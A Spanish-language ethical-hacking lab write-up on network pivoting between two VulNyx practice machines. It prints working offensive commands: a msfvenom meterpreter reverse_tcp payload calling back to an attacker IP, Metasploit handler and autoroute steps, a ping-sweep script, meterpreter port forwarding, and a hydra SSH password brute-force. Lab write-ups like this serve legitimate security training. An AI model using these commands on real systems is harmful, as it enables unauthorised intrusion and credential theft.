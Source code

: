 #Pivoting #PinguinoMario #HackingEtico 
Usaremos la máquina friendly 1 intermedia y la máquina basic de vulnyx máquina final:
![[Pasted image 20231112175352.png]]
Procedemos con la intrusión en la máquina friendly 1 hasta ser usuario root:
![[Pasted image 20231112180130.png]]
Ahora vamos a recibir esta conexión como meterpreter en la máquina atacante, por lo que creamos un nuevo payload con msfvenom:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.32 LPORT=4444 -f elf -b '\x00\x0a\x0d' -o virus
```
Y nos lo compartimos con la máquina víctima:
![[Pasted image 20231112180330.png]]
![[Pasted image 20231112180341.png]]
Y usamos el multi/handler de metasploit cargando el payload de meterpreter:
```bash
set PAYLOAD linux/x86/meterpreter/reverse_tcp
```
![[Pasted image 20231112180455.png]]
![[Pasted image 20231112180530.png]]
Y recibimos el meterpreter:
![[Pasted image 20231112180542.png]]
Vemos las interfaces de red con el comando ipconfig, donde identificamos la segunda interfaz de red:
![[Pasted image 20231112180611.png]]
Enrutamos el tráfico con el módulo de autoroute:
```bash
use /multi/manage/autoroute
```
![[Pasted image 20231112180736.png]]
Y ahora tenemos que encontrar equipos levantados dentro de esta red interna de 10.10.10.0/24, por lo que usamos el siguiente script:
```bash
#!/bin/bash

for i in {1..255}; do
    timeout 1 bash -c "ping -c 1 10.10.10.$i" >/dev/null
    if [ $? -eq 0 ]; then
        echo "El host 10.10.10.$i está activo"
    fi
done
```
Lo compartimos:
![[Pasted image 20231112180923.png]]
Lo recibimos:
![[Pasted image 20231112181016.png]]
Y encontramos el host objetivo:
![[Pasted image 20231112181055.png]]
Ahora tenemos que hacerle un escaneo de puertos a esta dirección IP, por lo que usamos el módulo de portscan/tcp:
![[Pasted image 20231112181214.png]]
Y con los siguientes comandos realizamos el port forwarding, de tal forma que nos vamos a traer tanto el puerto 22 como el puerto 631:
```bash
portfwd add -l 222 -p 22 -r 10.10.10.8
portfwd add -l 631 -p 631 -r 10.10.10.8
```
![[Pasted image 20231112181340.png]]
Y aquí vemos el contenido de lo que corre por el puerto 631:
![[Pasted image 20231112181426.png]]
Detectamos el usuario:
![[Pasted image 20231112181437.png]]
Por lo que atacamos al puerto ssh que también nos hemos traído en el puerto 222 de mi máquina local:
```bash
hydra -l dimitri -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1 -s 222
```
